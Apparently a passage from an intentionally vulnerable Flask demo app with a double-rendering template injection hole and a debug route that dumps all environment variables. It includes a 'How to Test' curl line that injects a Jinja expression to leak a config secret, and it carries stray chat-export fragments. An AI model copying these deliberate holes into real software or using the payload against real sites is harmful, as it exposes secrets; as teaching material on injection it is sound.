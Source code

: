 ```python
    <html>
    <head>
      <title>Disorientation for {{ visitor_name_prepped }}</title>
    </head>
    <body>
      <h1>Galactic Consent Interface</h1>
      <p><b>{{ visitor_name_prepped }}</b> requests access to: {{ scope_prepped }}</p>
      <p>By continuing, you're granting cosmic permissions to {{ visitor_name_prepped }}.</p>
      <form action="/request_lunar_pass" method="POST">
        <label for="username">Enter your cosmic handle to proceed:</label>
        <input id="username" name="username" type="text" placeholder="e.g. star-lord">
        <button type="submit">Obtain Lunar Pass</button>
      </form>
    </body>
    </html>
    """

    # === First Pass ===
    first_pass_render = render_template_string(
        outer_shell,
        visitor_name_prepped=visitor_name_prepped,
        scope_prepped=scope_prepped
    )

    # === Second Pass ===
    second_pass_render = render_template_string(first_pass_render, config=GalacticPortal.config)
    return second_pass_render


@GalacticPortal.route("/night_vision", methods=["GET"])
def env_leak():
    """
    env_leak: Another optional route that returns environment variables in JSON form.
    Illustrates how naive debugging endpoints can leak secrets.
    """
    all_env = {k: v for k, v in os.environ.items()}
    return jsonify(all_env)


if __name__ == "__main__":
    # Spin up the portal on port 666, where mischief thrives
    GalacticPortal.run(host="0.0.0.0", port=666)
vbnet
Copy code

### How to Test

1. **Set the environment variable** (optional):
   ```bash
   export SPACE_SPICE="Sup3rZ3cretVal!"
Run the Flask app:
bash
Copy code
python3 obf_app.py
Exploit by visiting (or using curl):
bash
Copy code
curl -g "http://localhost:666/disorientation?visitor_name={{config[%27SPACE_SPICE%27]}}"
Result: The final HTML will display Sup3rZ3cretVal! in place of the Jinja tag.
Conclusion
```